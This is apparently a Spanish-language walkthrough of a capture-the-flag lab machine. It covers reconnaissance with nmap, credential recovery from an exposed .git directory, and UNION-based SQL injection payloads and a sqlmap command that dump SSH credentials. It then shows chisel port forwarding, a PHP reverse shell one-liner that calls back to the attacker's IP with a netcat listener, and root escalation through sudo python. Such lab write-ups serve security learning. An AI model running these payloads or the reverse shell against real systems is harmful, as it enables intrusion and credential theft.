# Reconocimiento IP maquina Victima

## Escaneo red
> Primero escanearemos la red en la que nos encontramos para encontrar la maquina victima. 

```bash
sudo arp-scan --localnet
```




> Podemos ver si nos responde bien.

```bash
ping -c4 192.168.1.93
```

*Recibe y nos devuelve las trazas.*

## Escaneo maquina
> Escaneamos los puertos abiertos primero de la maquina.
```bash
nmap -p- --open -T5 --min-rate 5000 -n -vvv 192.168.1.93 -oG tcp_ports
```


> A los puertos encontrados, les aplicaremos scripts propios de nmap.
```bash
nmap -p22,80 -sVC 192.168.1.93 -oN scripts_ports.txt 
```


# Puerto 80


## Archivo .git
> En la fase de escaneo, detectamos gracias a los scripts de nmap que se subio un archivo .git , lo cual es una mala practica ya que con este podemos visualizar commits/versiones anteriores de código.




> Lo descargamos con:
```bash
wget -r -np IP/.git/
```

> Finalmente, vemos las cosas eliminadas/agregadas con log:
```bash
git log -p
```



*Obtenemos unas credenciales. La web tiene un portal de login. *

> Usaremos las creeds para loguearnos en el portal.


> Las credenciales funcionaron. Una vez nos logueamos, somos redirigidos a la ruta /dashboard.php. Intentamos colar una comilla para ver si quizás nos devuelve algún error.


*ERROR!*

## SQLI
> Usaremos ORDER BY para ver que nos devuelve. Con 6 devuelve bien la pagina, con 7 da un error. Confirmamos 6 columnas de la tabla utilizada.



> Ahora probaremos colando UNION SELECT y agregando database(). Esto nos devolvera el nombre de la db.



> Buscaremos las tablas de esta database:

```bash
UNION SELECT null, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = database()),null,null,null,null -- -
```




> Las columnas de la tabla ssh:

```bash
UNION SELECT null, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema = database() and table_name="ssh"),null,null,null,null -- -
```


> Finalmente el contenido:

```bash
UNION SELECT null, group_concat(user,':',pass),null,null,null,null from darkhole_2.ssh -- -
```


*TENEMOS CREEDS PARA CONECTARNOS EN SSH.*


### SQLMAP (EXTRA))
*Pudimos haber utilizado sqlmap igual:*


```bash
sqlmap -u 'http://192.168.1.93/dashboard.php?id=1' --cookie="PHPSESSID=d455n06klpaqicv9tptbtl8mjf" -D darkhole_2 -T ssh --dump
```




## SSH 
> Nos conectamos por ssh.

```bash
ssh jehad@192.168.1.93
```


> Export de nuestra terminal. 

```bash
export TERM=xterm
```


> Puertos abiertos localmente:

```bash
netstat -nltp
```

*Ademas, en el bash history en el directorio del usuario encontramos el uso de CURL -X GET hacia el puerto con el cmd.*

> Es un servicio que permite ejecutar comandos a traves del user losy




# Chisel

> Expondremos este puerto a nuestra maquina atacante mediante chisel.

> Prendemos el servidor en la maquina atacante.
```bash
chisel server --port 1234 --reverse
```

> Enviamos el binario mediante scp a la maquina victima:

```bash
 scp chisel jehad@192.168.1.93:/tmp
```

> Ejecutamos en el  cliente el binario:

```bash
jehad@darkhole:/tmp$ ./chisel client 192.168.1.83:1234 R:9999:127.0.0.1:9999
```

> Port forwarding logrado:




# Reverse shell

> Nos pondremos en escucha por el puerto 443 , y por medio de la cmd en el servicio enviaremos una peticion para abrir una bash. En este caso usaremos php. Pudimos haber usado otro one liner igualmente. 

```bash
php -r '$sock=fsockopen("192.168.1.83",443);exec("sh <&3 >&3 2>&3");'
```

> Mediante burpsuite lo urlencodearemos:





> Finalmente, en nuestra terminal nos ponemos en escucha con netcat:

```bash
nc -nlvp 443
```


> Revisando el .bash_history del usuario encontramos la password:




# Escalara a ROOT

> Chequeando permisos, nos encontramos que:

```bash
sudo -l
```


*Podemos ejecutar python como root...*

```bash
sudo python3
```

```bash
import os
```

```bash
os.system("whoami")
```



```bash
os.system("/bin/bash")
```



*MAQUINA PWNED.*